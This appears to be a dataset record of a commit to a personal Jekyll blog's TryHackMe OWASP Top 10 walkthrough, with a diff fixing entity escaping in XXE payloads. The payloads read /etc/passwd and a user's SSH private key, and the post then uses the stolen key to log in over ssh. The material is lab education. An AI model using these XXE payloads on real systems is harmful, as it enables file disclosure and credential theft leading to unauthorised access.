

Before and after one commit to 4n3i5v74/4n3i5v74.github.io, a Jekyll site: the page built from _posts/2021-02-10-tryhackme-owasp-top-10.md, in a window 1280 px wide and 1400 px high, scrolled down 6381 px. Shown: the part 227-1176 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Modified

```diff
--- a/_posts/2021-02-10-tryhackme-owasp-top-10.md
+++ b/_posts/2021-02-10-tryhackme-owasp-top-10.md
@@ -198,11 +198,11 @@ Use `firefox` to load url `http://<ip>` and try the below payloads.
 {% capture code %}<!DOCTYPE replace [<!ENTITY name "feast"> ]>
   <userInfo>
     <firstName>falcon</firstName>
-    <lastName>&amp;name;</lastName>
+    <lastName>&name;</lastName>
   </userInfo>{% endcapture %} {% include code.html code=code%}
 
 {% capture code %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
-<root>&amp;read;</root>{% endcapture %} {% include code.html code=code%}
+<root>&read;</root>{% endcapture %} {% include code.html code=code%}
 
 The first payload will display `falcon feast` and the second payload will display contents of system file `/etc/passwd`.
 
@@ -213,11 +213,11 @@ Use `firefox` to load the url `http://<ip>`
 
 Use the following payloads to get the contents of `/etc/passwd`.
 {% capture code %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
-<root>&amp;read;</root>{% endcapture %} {% include code.html code=code%}
+<root>&read;</root>{% endcapture %} {% include code.html code=code%}
 
 There is one non-system user. Use the following payload to read the user's rsa private key.
 {% capture code %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/<user>/.ssh/id_rsa'>]>
-<root>&amp;read;</root>{% endcapture %} {% include code.html code=code%}
+<root>&read;</root>{% endcapture %} {% include code.html code=code%}
 
 Copy the contents of payload output to new file. Change the permission of the file to be more stricter, like `chmod 400 <user>_id_rsa` and use `ssh` to login to the machine using downloaded user's ssh private key.
 {% capture code %}{% raw %}ssh -i <user>_id_rsa <user>@<ip>{% endraw %}{% endcapture %} {% include code.html code=code %}
```
Also changed, not shown: other parts of _posts/2021-02-10-tryhackme-owasp-top-10.md (+1 -1 lines).
